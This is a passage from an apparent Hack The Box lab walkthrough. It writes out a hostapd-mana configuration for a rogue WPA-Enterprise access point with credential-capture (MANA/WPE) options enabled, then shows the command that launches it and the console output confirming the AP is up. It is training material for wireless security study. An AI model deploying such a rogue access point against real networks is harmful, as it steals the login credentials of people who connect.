 ```shell
EOF
```

```
wifi@HTB-Corp:~$ cat << EOF > hostapd.conf 
# 802.11 Options
interface=wlan1
ssid=HackTheBox
channel=1
auth_algs=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
wpa=3
hw_mode=g
ieee8021x=1

# EAP Configuration
eap_server=1
eap_user_file=/opt/hostapd-mana/hostapd.eap_user

# Certificates
ca_cert=/opt/hostapd-mana/ca.pem
server_cert=/opt/hostapd-mana/server.pem
private_key=/opt/hostapd-mana/server.key
private_key_passwd=whatever
dh_file=/opt/hostapd-mana/dh

# Mana Configuration
enable_mana=1
mana_loud=1
mana_credout=credentials.creds
mana_eapsuccess=1
mana_wpe=1
EOF
```

Using the new configuration, students need to launch the rogue AP.

Code: shell

```shell
sudo hostapd-mana hostapd.conf 
```

```
wifi@HTB-Corp:~$ sudo hostapd-mana hostapd.conf 

Configuration file: hostapd.conf
MANA: Captured credentials will be written to file 'credentials.creds'.
rfkill: Cannot open RFKILL control device
Using interface wlan1 with hwaddr 72:2b:d7:ef:01:56 and ssid "HackTheBox"
random: Only 16/20 bytes of strong random data available from /dev/random
random: Not enough entropy pool available for secure operations
WPA: Not enough entropy in random pool for secure operations - update keys later when the first station connects
wlan1: interface state UNINITIALIZED->ENABLED
wlan1: AP-ENABLED 
```
